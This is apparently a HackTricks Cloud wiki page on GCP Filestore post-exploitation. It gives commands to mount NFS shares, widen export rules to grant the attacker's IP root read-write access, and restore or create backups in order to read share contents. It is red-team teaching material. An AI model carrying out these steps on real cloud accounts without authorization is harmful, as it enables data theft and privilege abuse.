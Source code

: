 # GCP - Filestore Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Filestore

For more information about Filestore check:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Mount Filestore

A shared filesystem **might contain sensitive information** interesting from an attackers perspective. With access to the Filestore it's possible to **mount it**:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

To find the IP address of a filestore insatnce check the enumeration section of the page:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Remove Restrictions and get extra permissions

If the attacker isn't in an IP address with access over the share, but you have enough permissions to modify it, it's possible to remover the restrictions or access over it. It's also possible to grant more privileges over your IP address to have admin access over the share:

```bash
gcloud filestore instances update nfstest \
    --zone=<exact-zone> \
    --flags-file=nfs.json

# Contents of nfs.json
{
  "--file-share":
  {
    "capacity": "1024",
    "name": "<share-name>",
    "nfs-export-options": [
      {
        "access-mode": "READ_WRITE",
        "ip-ranges": [
          "<your-ip-private-address>/32"
        ],
        "squash-mode": "NO_ROOT_SQUASH",
        "anon_uid": 1003,
        "anon_gid": 1003
      }
    ]
  }
}
```

### Restore a backup

If there is a backup it's possible to **restore it** in an existing or in a new instance so its **information becomes accessible:**

```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
    --zone=<zone> \
    --tier=STANDARD \
    --file-share=name=vol1,capacity=1TB \
    --network=name=default,reserved-ip-range=10.0.0.0/29
    
# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
    --zone=<zone> \
    --file-share=<instance-file-share-name> \
    --source-backup=<backup-name> \
    --source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```

### Create a backup and restore it

If you **don't have access over a share and don't want to modify it**, it's possible to **create a backup** of it and **restore** it as previously mentioned:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
    --region=<region> \
    --instance=<instance-name> \
    --instance-zone=<instance-zone> \
    --file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
